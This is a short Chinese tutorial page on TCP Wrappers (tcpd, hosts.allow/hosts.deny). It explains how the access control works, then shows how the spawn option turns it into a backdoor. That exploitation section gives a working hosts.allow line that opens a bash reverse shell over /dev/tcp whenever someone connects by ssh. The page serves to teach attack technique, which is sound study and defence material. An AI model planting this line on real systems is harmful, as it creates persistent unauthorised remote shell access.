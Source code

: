 ```yaml
---
title: TCP Wrappers
id: zhfly3508
---
```


## TCP Wrappers

TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。

**工作原理**

TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。

**利用**

TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件：

```
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/127.0.0.1/6666 0>&1") & :allow 
```

![image](../img/19d8825dce2e326695839b176cb1080f.png)

![image](../img/667331e4250a634c5354159c60840074.png)

当使用ssh连接的时候，它开始匹配规则，然后利用spawn执行的nc反弹了一个shell。